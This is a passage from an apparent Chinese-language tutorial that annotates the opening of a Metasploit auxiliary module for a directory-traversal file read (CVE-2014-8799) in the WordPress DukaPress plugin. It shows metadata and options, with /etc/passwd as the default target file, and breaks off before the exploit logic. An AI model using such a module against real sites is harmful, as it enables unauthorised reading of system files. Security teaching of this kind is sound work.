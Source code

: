 看到这一堆代码，一般人都会有点晕，不知道从那里下手，莫慌，问google，搜索`metasploit write module`，搜索结果第三个，[How to get started with writing an exploit](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit)，里面有一些module结构的说明. 这里对照着给了代码加了些注释：

```
# 引入msf core 库

require 'msf/core'

# 继承 Msf::Auxiliary 类

class Metasploit3 < Msf::Auxiliary

  # 引入三个 module，具体可以查看文档

  include Msf::Auxiliary::Report

  include Msf::Exploit::Remote::HTTP::Wordpress

  include Msf::Auxiliary::Scanner

  # 初始化函数

  def initialize(info = {})

    super(update_info(info,
      # [Vendor] [Software] [Root Cause] [Vulnerability type] 
      'Name'           => 'WordPress DukaPress Plugin File Read Vulnerability',
      # 描述
      'Description'    => %q{
        This module exploits a directory traversal vulnerability in WordPress Plugin
        "DukaPress" version 2.5.2, allowing to read arbitrary files with the
        web server privileges.
      },
      # 相关vulnerability 或 exploit的参考
      'References'     =>
        [
          ['EDB', '35346'],
          ['CVE', '2014-8799'],
          ['WPVDB', '7731'],
          ['OSVDB', '115130']
        ],
      # 作者
      'Author'         =>
        [
          'Kacper Szurek', # Vulnerability discovery
          'Roberto Soares Espreto <robertoespreto[at]gmail.com>' # Metasploit module
        ],
      'License'        => MSF_LICENSE
    ))
    # 注册需要参数
    register_options(
      [
        # 要获取的文件路径
        OptString.new('FILEPATH', [true, 'The path to the file to read', '/etc/passwd']),
        # 遍历深度，用于到达根目录，默认7次../
        OptInt.new('DEPTH', [ true, 'Traversal Depth (to reach the root folder)', 7 ])
      ], self.class)

  end

  # 用于支持 check 命令；在具体执行exploit前，检查是否存在漏洞

  def check
```